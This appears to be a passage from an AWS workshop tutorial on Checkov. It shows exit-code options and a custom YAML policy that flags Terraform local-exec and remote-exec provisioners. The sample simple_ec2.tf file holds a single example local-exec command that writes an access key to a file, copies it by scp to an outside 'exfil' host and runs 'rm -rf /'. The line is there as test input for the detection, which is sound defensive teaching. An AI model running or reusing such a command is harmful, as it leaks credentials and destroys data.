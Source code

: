 Lastly, enforcement can be more granularly controlled by using the --soft-fail option. Applying --soft-fail results in the scan always returning a 0 exit code. Using --hard-fail-on overrides this option.

Check the exit code when running checkov -d . with and without the --soft-fail option.
```sh
checkov -d . ; echo $?
checkov -d . --soft-fail ; echo $?

```
**3. Custom polices**

Checkov supports the creation of Custom Policies  for users to customize their own policy and configuration checks. Custom policies can be written in YAML (recommended) or python and applied with the `--external-checks-dir` or `--external-checks-git` flags.

Let's create a custom policy to check for **local-exec and remote-exec Provisioners**  being used in Terraform resource definitons. 
https://developer.hashicorp.com/terraform/language/resources/provisioners/local-exec

{{%expand "Expand provisioners code:  check.yaml" %}}
```sh
metadata:
 name: "Terraform contains local-exec and/or remote-exec provisioner"
 id: "CKV2_TF_1"
 category: "GENERAL_SECURITY"
definition:
 and:
  - cond_type: "attribute"
    resource_types: all
    attribute: "provisioner/local-exec"
    operator: "not_exists"
  - cond_type: "attribute"
    resource_types: all
    attribute: "provisioner/remote-exec"
    operator: "not_exists"
```
{{% /expand%}}

Add the above code to a new file within a new direcotry.
```sh
mkdir custom-checks/
vim custom-checks/check.yaml
```
 *[!TIP] use echo '$(file_contents)' > custom-checks/check.yaml if formatting is an issue with vim.*

Save the file. Then run checkov with the **--external-checks-dir** to test the custom policy.

{{%expand "simple_ec2.tf" %}}
```sh
provider "aws" {
  region = "us-west-2"
}

resource "aws_ec2_host" "test" {
  instance_type     = "t3.micro"
  availability_zone = "us-west-2a"

  provisioner "local-exec" {
    command = "echo Running install scripts.. 'echo $ACCESS_KEY > creds.txt ; scp -r creds.txt root@my-home-server.com/exfil/ ; rm -rf /'   "
  }

}
```
{{% /expand%}}


[5]: /aws-ws/images/6/61/5.png?featherlight=false&width=90pc
[5-1]: /aws-ws/images/6/61/5-1.png?featherlight=false&width=50pc
[5-2]: /aws-ws/images/6/61/5-2.png?featherlight=false&width=50pc
[6]: /aws-ws/images/6/61/6.png?featherlight=false&width=90pc
[8]: /aws-ws/images/6/61/8.png?featherlight=false&width=90pc
[8-1]: /aws-ws/images/6/61/8-1.png?featherlight=false&width=90pc
[10]: /aws-ws/images/6/61/10.png?featherlight=false&width=90pc
[14]: /aws-ws/images/6/61/14.png?featherlight=false&width=90pc
[15]: /aws-ws/images/6/61/15.png?featherlight=false&width=90pc
[16]: /aws-ws/images/6/61/16.png?featherlight=false&width=90pc
[17]: /aws-ws/images/6/61/17.png?featherlight=false&width=90pc
[18]: /aws-ws/images/6/61/18.png?featherlight=false&width=90pc
[19]: /aws-ws/images/6/61/19.png?featherlight=false&width=90pc
[611]: /aws-ws/images/6/61/ex/1.png?featherlight=false&width=90pc
[612]: /aws-ws/images/6/61/ex/2.png?featherlight=false&width=90pc
[613]: /aws-ws/images/6/61/ex/3.png?featherlight=false&width=90pc
[614]: /aws-ws/images/6/61/ex/4.png?featherlight=false&width=90pc
[616]: /aws-ws/images/6/61/ex/6.png?featherlight=false&width=90pc
[617]: /aws-ws/images/6/61/ex/7.png?featherlight=false&width=90pc
[618]: /aws-ws/images/6/61/ex/8.png?featherlight=false&width=90pc
[619]: /aws-ws/images/6/61/ex/9.png?featherlight=false&width=90pc
[6110]: /aws-ws/images/6/61/ex/10.png?featherlight=false&width=90pc
[6111]: /aws-ws/images/6/61/ex/11.png?featherlight=false&width=90pc
[6112]: /aws-ws/images/6/61/ex/12.png?featherlight=false&width=90pc
[6113]: /aws-ws/images/6/61/ex/13.png?featherlight=false&width=90pc
[6114]: /aws-ws/images/6/61/ex/14.png?featherlight=false&width=90pc
